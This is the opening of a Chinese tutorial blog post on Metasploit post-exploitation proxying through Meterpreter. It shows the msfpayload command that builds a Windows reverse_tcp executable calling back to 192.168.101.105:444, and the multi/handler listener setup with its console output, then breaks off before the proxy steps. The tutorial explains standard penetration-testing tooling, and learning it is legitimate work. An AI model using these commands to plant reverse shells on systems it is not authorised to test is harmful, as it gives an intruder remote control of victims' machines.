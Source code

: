 ```yaml
---
title: Metasploit渗透技巧：后渗透Meterpreter代理
url: 84.html
id: 84
categories:
  - linux
date: 2015-03-30 18:36:11
tags:
  - metasploit
  - 渗透
---
```


前言

Metasploit是一个免费的、可下载的渗透测试框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击测试。它本身附带数百个已知软件漏洞的专业级漏洞攻击测试工具。



当H.D. Moore在2003年发布Metasploit时，计算机安全状况也被永久性地改变了。仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来测试那些未打过补丁或者刚刚打过补丁的漏洞。

正是因为Metasploit团队一直都在努力开发各种攻击测试工具，并将它们贡献给所有Metasploit用户，软件厂商再也不能推迟发布针对已公布漏洞的补丁了。

本文将科普下metasploit隧道代理的使用技巧。

0×00 获取meterpreter

1.首先生成可执行文件
<pre class="prettyprint lang-html prettyprinted">root@kali:~# msfpayload windows/meterpreter/reverse_tcp  LHOST=192.168.101.105 LPORT=444 X > meter.exe
[!] ************************************************************************
[!] *               The utility msfpayload is deprecated!                  *
[!] *              It will be removed on or about 2015-06-08               *
[!] *                   Please use msfvenom instead                        *
[!] *  Details: https://github.com/rapid7/metasploit-framework/pull/4333   *
[!] ************************************************************************
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
 Length: 281
Options: {"LHOST"=>"192.168.101.105", "LPORT"=>"444"}</pre>
2.启动msfconsole，监听反连端口
<pre class="prettyprint lang-html prettyprinted">root@kali:~# msfconsole
[*] Starting the Metasploit Framework console.../ 
Taking notes in notepad? Have Metasploit Pro track &amp; report
your progress and findings -- learn more on http://rapid7.com/metasploit
       =[ metasploit v4.11.0-2014122301 [core:4.11.0.pre.2014122301 api:1.0.0]]
+ -- --=[ 1386 exploits - 863 auxiliary - 236 post        ]
+ -- --=[ 342 payloads - 37 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf exploit(handler) > set LPORT 444
LPORT => 444
msf exploit(handler) > show options 
Module options (exploit/multi/handler):
Name  Current Setting  Required  Description
 ----  ---------------  --------  -----------
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (accepted: seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address